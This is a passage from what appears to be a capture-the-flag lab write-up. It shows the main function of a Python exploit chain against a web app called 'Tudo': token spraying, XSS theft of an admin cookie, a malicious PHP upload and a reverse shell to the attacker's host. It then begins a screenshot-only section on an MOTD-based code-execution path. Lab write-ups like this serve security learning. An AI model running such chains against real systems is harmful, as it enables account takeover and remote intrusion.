 ```py
    # Mount the JS payload
    mountJS(lhost)
    # Get the seed1
    seed1 = getCurrentTime(rhost)
    os.system("sleep 1")
    # Send the token
    sendToken(rhost,username)
    # Get the seed2
    os.system("sleep 1")
    seed2 = getCurrentTime(rhost)
    # Generate the spray payload list
    mountPhpSpray(seed1,seed2)
    # Let's bruteforce it
    sprayToken(rhost)
    # Let's login
    loginUser(rhost,username)
    # Let's plant the xss
    putXSS(rhost,lhost)
    # Get the admin token
    getToken(lhost)
    # Change token
    changeCookies(rhost,admin_cookie)
    # Upload the malicious php
    maliciousUpload(rhost)
    # Get Reverse Shell
    getReverse(rhost,lhost,lport)
    # Clean up
    os.system("rm spray.php")
    os.system("rm seed_list.txt")
    os.system("rm steal.js")
    
if __name__ == '__main__':
    main()
```

Now, let's get the last rce way.

# 3º RCE - Update MOTD

The last RCE we can get from this box is trough update the MOTD message on the server

On the admin page we see that we can change the motd from the user

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2007:12:17.png)

We just see in burp how it works

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2007:12:50.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2007:13:17.png)
